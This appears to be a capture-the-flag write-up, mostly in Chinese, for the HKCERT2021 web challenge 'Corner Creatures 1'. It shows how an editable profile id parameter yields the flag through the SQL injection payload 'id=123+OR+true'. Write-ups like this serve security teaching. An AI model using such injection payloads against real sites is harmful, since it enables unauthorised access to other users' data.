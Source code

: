 # HKCERT2021 - 角落生物 1
- Write-Up Author: [Ivan Mak](https://ank.pw/tech/)

- Flag: hkcert21{squirrels-or-1-or-2-or-3-and-you}

## **Question:**
角落生物 1 (50 points)

>Challenge description

Find out Squirrel Master's password!

http://chalf.hkcert21.pwnable.hk:28062/

## Write up
1. 打開網站

URL : http://chalf.hkcert21.pwnable.hk:28062/index.php

![img](./img/1.png)

2. 點擊 Join the community

URL : http://chalf.hkcert21.pwnable.hk:28062/chat/

![img](./img/2.png)

3. 註冊帳號 & 登入

URL : http://chalf.hkcert21.pwnable.hk:28062/chat/register

隨便註冊:
```
AC : abcabc
PW : efgefg
```

![img](./img/3.png)

URL : http://chalf.hkcert21.pwnable.hk:28062/chat/

![img](./img/4.png)

4. 進入 chatroom 並試試發 message

URL : http://chalf.hkcert21.pwnable.hk:28062/chat/message/public

![img](./img/5.png)

5. 點擊對話框查看個人 profile

URL : http://chalf.hkcert21.pwnable.hk:28062/chat/user?id=1207299191

![img](./img/6.png)

發現漏洞
{:.error}

眼尖的小伙伴這時候就能發現網址欄的 ID 可以任意改寫

6. 修改網址欄

payload 就是 **id=123+OR+true**

URL : http://chalf.hkcert21.pwnable.hk:28062/chat/user?id=123+OR+true

![img](./img/7.png)

Got the Flag!!
{:.success}

> hkcert21{squirrels-or-1-or-2-or-3-and-you}
